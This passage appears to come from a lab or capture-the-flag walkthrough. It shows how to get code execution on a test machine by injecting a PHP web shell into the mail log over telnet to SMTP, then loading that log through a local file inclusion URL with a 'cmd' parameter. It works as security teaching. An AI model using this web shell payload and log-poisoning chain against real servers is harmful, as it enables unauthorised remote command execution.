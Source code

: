 **What is a Log?** A **log** is like CCTV for a system — a record of every action: who did what, where, when.

**Image:**\


#### Example Log Entries for Email:

- **User:** anandhu\@localhost
- **Recipient:** root\@localhost
- **Log file:** `/var/log/mail`

**Image:**\


---

### Step 6: Sending Emails via Telnet

**Why:** To inject content into the mail log for later use (like a PHP payload).

**Command:**

```
telnet 192.168.1.8 25
mail from: anandhu@localhost
rcpt to: root@localhost
subject: test
```

**Problem:** Subject causes connection closure — remove it.

**Successful Email (no subject):**\


---

### Step 7: Injecting PHP via Mail Logs

To gain code execution via LFI, inject PHP into the subject:

```
telnet 192.168.1.8 25
mail from: anandhu@localhost
rcpt to: root@localhost
subject: <?php system($_GET["cmd"]); ?>
```

Access it using:

```
http://192.168.1.8/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=ifconfig
```

**Image:**\


**Why This Works:**

- Email is logged in plain text
- LFI reads log and interprets PHP code
- The `cmd` parameter runs shell commands via `system()`

---